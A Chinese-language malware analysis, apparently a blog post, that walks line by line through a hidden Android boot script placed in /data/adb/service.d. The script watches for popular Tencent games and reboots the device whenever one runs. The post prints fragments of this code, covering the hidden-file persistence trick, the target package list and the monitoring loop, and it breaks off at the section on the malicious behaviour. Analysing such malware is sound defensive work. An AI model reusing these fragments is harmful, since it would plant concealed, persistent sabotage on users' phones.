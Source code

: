 ```bash
			reboot
		fi
	done
	check_interval=$((RANDOM % 301 + 300))
	sleep $check_interval
done
```

#### 3. 逐行分析

##### 3.1 文件创建
 ```shell
cat > /data/adb/service.d/.lsposed_service.sh <<'EOF'
 ```

- 作用：将接下来的内容写入到 .lsposed_service.sh 文件。

- 隐蔽性：文件名前加 . 表示隐藏文件，减少被用户发现的可能性。

- 系统启动后自动运行。

##### 3.2 监控的应用包名
 ```shell
packages="com.tencent.tmgp.sgame com.tencent.tmgp.pubgmhd com.tencent.mf.suam com.tencent.tmgp.cod com.tencent.tmgp.cf"
 ```

- 作用：定义了需要监控的游戏应用包名，主要包括：

- com.tencent.tmgp.sgame：王者荣耀

- com.tencent.tmgp.pubgmhd：和平精英

- com.tencent.tmgp.cod：使命召唤手游

- com.tencent.tmgp.cf：穿越火线手游

- ...

意图针对性破坏热门游戏进行恶作剧。

##### 3.3 无限循环检测

```shell
while true
do
	for package in $packages; do
		pid=$(pidof "$package")
		if [ -n "$pid" ]; then
```

作用：

- 使用 while true 创建无限循环，持续监控设备运行状态。

- 遍历定义的包名，检查是否存在对应的进程。

##### 3.4 恶意行为
